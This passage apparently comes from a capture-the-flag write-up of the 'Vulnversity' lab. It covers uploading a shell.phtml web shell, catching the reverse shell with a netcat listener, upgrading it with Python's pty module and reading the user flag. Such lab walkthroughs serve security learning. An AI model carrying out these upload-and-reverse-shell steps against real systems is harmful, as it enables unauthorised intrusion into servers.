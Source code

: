 <br />
Choose the shell.phtml file and click the submit button to upload it.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/uploadpayload.png" title="Upload payload" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Navigate to the shell that was just uploaded.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid path="assets/img/vulnversity/navshell.png" title="Navigate to the shell" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />

<br />
Check the listener and catch the shell.

{% raw %}
```bash 
┌──(sec㉿kali)-[~]
└─$ sudo nc -nlvp 443                                   
[sudo] password for sec: 
listening on [any] 443 ...
connect to [10.4.119.29] from (UNKNOWN) [10.10.207.42] 34548
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:47:13 up 50 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
{% endraw %}

<br />
Use python pty to spawn a better shell.

{% raw %}
```bash 
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@vulnuniversity:/$ 
```
{% endraw %}

<br />
Cat the user.txt in the user folder and ifconfig to get the full trophy.

{% raw %}
```bash 
www-data@vulnuniversity:/$ cat /home/bill/user.txt
cat /home/bill/user.txt
<redacted>
www-data@vulnuniversity:/$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:ab:3b:49:61:43  
          inet addr:10.10.207.42  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::ab:3bff:fe49:6143/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:9211 errors:0 dropped:0 overruns:0 frame:0
          TX packets:8545 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
```